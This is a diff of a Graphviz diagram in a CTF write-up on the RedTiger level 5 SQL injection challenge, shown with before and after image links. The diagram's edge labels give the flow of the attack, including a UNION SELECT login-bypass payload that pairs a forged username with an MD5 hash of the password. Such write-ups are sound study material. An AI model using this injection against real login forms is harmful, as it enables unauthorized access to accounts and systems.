

Before and after one commit to joizel/ctf_writeup: the diagram in docs/web/Blind SQL Injection/[redtiger] level5.rst, drawn with Graphviz. The commit also changed other lines of this file and 13 other files, not shown here.

```diff
--- a/docs/web/Blind SQL Injection/[redtiger] level5.rst
+++ b/docs/web/Blind SQL Injection/[redtiger] level5.rst
@@ -5,21 +7,23 @@
 .. graphviz::
 
     digraph G {
         rankdir="LR";
         node[shape="point"];
         edge[arrowhead="none"]
 
         {
             rank="same";
             "client"[shape="plaintext"];
             "client" -> step0 -> step2 -> step4 -> step6 -> step8;
         }
 
         {
             rank="same";
             "server"[shape="plaintext"];
             "server" -> step1 -> step3 -> step5 -> step7 -> step9;
         }
-        step0 -> step1[label="username=' union select 'joizel','0cc175b9c0f1b6a831c399e269772661&password=a&login=Login",arrowhead="normal"];
-        step3 -> step2[label="@solve",arrowhead="normal"];
+        step0 -> step1[label="post_data: {username='&password='}",arrowhead="normal"];
+        step3 -> step2[label="Error Page",arrowhead="normal"];
+        step4 -> step5[label="post_data: {username=' union select 'joizel','0cc175b9c0f1b6a831c399e269772661&password=a&login=Login}",arrowhead="normal"];
+        step7 -> step6[label="login success",arrowhead="normal"];
     }
```
